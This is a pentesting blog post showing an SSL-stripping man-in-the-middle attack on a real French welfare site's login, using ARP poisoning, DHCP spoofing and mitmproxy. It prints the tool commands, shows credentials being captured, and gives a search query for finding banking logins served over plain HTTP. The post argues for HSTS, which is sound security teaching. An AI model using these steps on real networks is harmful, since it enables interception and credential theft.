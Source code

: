 ```yaml
---
layout: post
title:  "MITM, HSTS, and plain HTTP landing page in practice"
date:   2017-03-27
category: Pentesting
excerpt_separator: <!--more-->
---
```

Hi everybody,  
  
I already wrote some articles talking about the importance of implementing the HTTP Strict Transport Security ([HSTS](https://https.cio.gov/hsts/)) and to secure all the webpages, even the landing page.  
  
**Why all the pages should be secure ?**  
  
Because all the trafic should be hidden from prying eyes. If an attacker could interfer with only one page, several options are available to him. He can strip all secure headers, redirect trafic, change web page content, force HTTP trafic, and so on.  
<!--more-->
Every case is different but keep in mind that if the victim is able to generate a plain HTTP request (http://website.com), the attacker can control all the trafic.  
  
However, if a ressource has been cached with HSTS, the browser will automatically do an internal redirect (Code 307).  
It is important to notice that the **Strict-Transport-Security** header will be cached if it is legitimate, i mean if the header is first saw by the browser on a HTTP response over TLS/SSL and if the certificate is valid (signed by a browser trusted CA). I checked on Chrome and Firefox this behavior. I saw on websites the **Strict-Transport-Security** set on plain HTTP responses, but the browser won't redirect if the above conditions are not met.  
  
But what if HSTS has never been cached ? so we will be able to fool a victim an maintain an plain text connection as we will see (we won't deal with any certificate faking here.  
  
In our example we will do a **MITM** attack between a Kali VM and the [french social welfare website](http://ameli.fr). You can find so many other websites, even some online bank websites to reproduce the attack.  
MITM attacks still succeed if you are not protected with some soft/hardware dropping unsolicited ARP responses ([RFC 826](https://tools.ietf.org/html/rfc826)).  
  
So stop talking, go for the show:  
![pic1]({{ site.url }}/public/images/mitm-example/pic1.png)  
  
We have here a non-secure HTTP landing page. What happens if we click on *"Mon compte ameli"* in order to log in ?  
![pic2]({{ site.url }}/public/images/mitm-example/pic2.png)  
  
So we have a secure login page.  What about the response headers ?  
![pic3]({{ site.url }}/public/images/mitm-example/pic3.png)  
  
Another check:  
  
```bash
root@kali:/tmp$ nmap -p 443 --script http-hsts-verify assure.ameli.fr 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-27 20:08 CEST
Nmap scan report for assure.ameli.fr (93.174.145.36)
Host is up (0.016s latency).
PORT    STATE SERVICE
443/tcp open  https
| http-hsts-verify: 
|_  HSTS is not configured.

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
  
I created a wrapper [script](https://github.com/phackt/mitm) to manage all the tools involved in the MITM attack. My advice is to run it on a Kali machine. However it will automatically download the web proxy that we will use ([Mitmproxy](https://mitmproxy.org/)).  
  
```bash
root@kali:/tmp$ git clone https://github.com/phackt/mitm.git && cd ./mitm
Clonage dans 'mitm'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 49 (delta 15), reused 35 (delta 9), pack-reused 0
Dépaquetage des objets: 100% (49/49), fait.
root@kali:/tmp/mitm$ sudo ./mitm.sh
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
  
We are almost ready for our mitm attack. We will specify the interactive mode (mitmproxy GUI), the capture HTTP traffic mode only (not faking certificates) and we will apply our custom **sslstrip.py** script.  
  
If you check the **bin** folder, you will find these tools:  
 - **arpoison.sh** to automate ARP poisoning  
 - **chk_poison.py** which will check if an ARP poisoning is successful  
  
First let's check the ips:  
  
```bash
root@kali:/tmp/mitm# route -n
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
root@kali:/tmp/mitm# nmap -sn 192.168.1.1/24
...
Nmap scan report for kali.home (192.168.1.19)
Host is up (0.00012s latency).
...
```  
  
Now run mitm.sh  
  
```bash
root@kali:/tmp/mitm# ./mitm.sh -g -n -x -i wlan0 192.168.1.1 192.168.1.19
INTERACTIVE_MODE On
HTTP_INTERCEPTION On
HTTPS_STRIPPING On

Installing mitmproxy v1, please wait...

--2017-03-27 20:49:08--  https://github.com/mitmproxy/mitmproxy/releases/download/v1.0/mitmproxy-1.0.0post1-linux.tar.gz
Résolution de github.com (github.com)… 192.30.253.113, 192.30.253.112
Connexion à github.com (github.com)|192.30.253.113|:443… connecté.
requête HTTP transmise, en attente de la réponse… 302 Found
Emplacement : https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream [suivant]
--2017-03-27 20:49:08--  https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream
Résolution de github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)… 54.231.114.227
Connexion à github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)|54.231.114.227|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 70081542 (67M) [application/octet-stream]
Sauvegarde en : « /tmp/mitm/mitmproxy/mitmproxy.tar »

/tmp/mitm/mitmproxy/mitmproxy.tar     100%[=======================================================================>]  66,83M  4,94MB/s    in 14s     

2017-03-27 20:49:23 (4,82 MB/s) — « /tmp/mitm/mitmproxy/mitmproxy.tar » sauvegardé [70081542/70081542]

mitmproxy
mitmdump
mitmweb

Installation done.

Flushing iptables...
Setting configuration...
No poisoning between 192.168.1.1 -> 192.168.1.19
Do you want to force poisoning? [Yn]:Y
Trying DHCP REQUEST to poison 192.168.1.1...
no answer
Poisoning successful!!!
```  
  
**chk_poison.py** can try to force poisoning (works on Orange Livebox) by sending a spoofed DHCP request. The router will automatically generate ARP request after that and will legitimate our spoofed ARP responses.  
  
So now we are definitely ready to intercept the trafic.  
![pic4]({{ site.url }}/public/images/mitm-example/pic4.png)  
  
Now imagine that the victim is surfing on [http://www.ameli.fr](http://www.ameli.fr).  
![pic5]({{ site.url }}/public/images/mitm-example/pic5.png)  
  
We see the trafic passing through the attacker machine.  
From the victim's point of view, everything seems transparent... but notice a detail:  
![pic6]({{ site.url }}/public/images/mitm-example/pic6.png)  
  
*https://assure.ameli.fr* became *http://assure.ameli.fr*.  
Our script will know that it will have to replay the secure connection on the other side. Now when our victim wants to access the login page:  
![pic7]({{ site.url }}/public/images/mitm-example/pic7.png)  
  
Everything seems ok, except.... Where is the green padlock ![padlock]({{ site.url }}/public/images/mitm-example/padlock.png) ???  
So here we are, **sslstrip.py** has done its job, switching every https links into http, deleting every secure headers (HSTS too, so if not cached, the attack will succeed). The script will remind what domains need SSL/TLS and replay the connections in a secure manner with the destination website.  

So we have **Victim <- HTTP -> Attacker (Mitmproxy) <- HTTPS -> Website**.  We can now intercept all the trafic in clear.  
  
Don't be impatient, the victim will log in a few seconds.  
![pic8]({{ site.url }}/public/images/mitm-example/pic8.png)  
  
In our proxy we can see the post request. Let's check the details:  
![pic9]({{ site.url }}/public/images/mitm-example/pic9.png)  
  
Credentials have been stolen.  
And from our victim, is this transparent ?:  
![pic10]({{ site.url }}/public/images/mitm-example/pic10.png)  
  
A lot of people will not notice that the connection is not secure (except you infosec ninjas) and will keep on surfing.  
So since you are clicking on http://banksite.com, if HSTS has not been cached for the domain banksite.com (best to use the preload list), you can keep plain connection because our proxy will strip the redirection to **https**://banksite.com into **http**://banksite.com and will act as we just seen above.  
  
Is it really much more expensive to have all the pages secure ? [HSTS](https://tools.ietf.org/html/rfc6797) is also just one header in the response and can easily be added. Companies should also think to have their domain in the preload list in order to perform a 307 internal redirect from the very first request. Here is the [HSTS preload list submission form](https://hstspreload.org/).  
Finally we can not talk here about vulnerability, but more as a lack of responsability.   
  
You also can play with the other options of **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```
    
You should try this kind of Google Dork: [-inurl:https online banking (log OR logon OR login OR account)](https://www.google.com/#q=-inurl:https+online+banking+(log+OR+logon+OR+login+OR+account))  
  
I sincerely hope you enjoyed this post as i liked to do it.  
Feel free to comment if you have any question, or if you find other cool domains.  
  
Phackt.  
  
References:
 - [https://github.com/phackt/mitm](https://github.com/phackt/mitm)  
 - [https://nmap.org/nsedoc/scripts/http-hsts-verify.html](https://nmap.org/nsedoc/scripts/http-hsts-verify.html)  
 - [https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)  

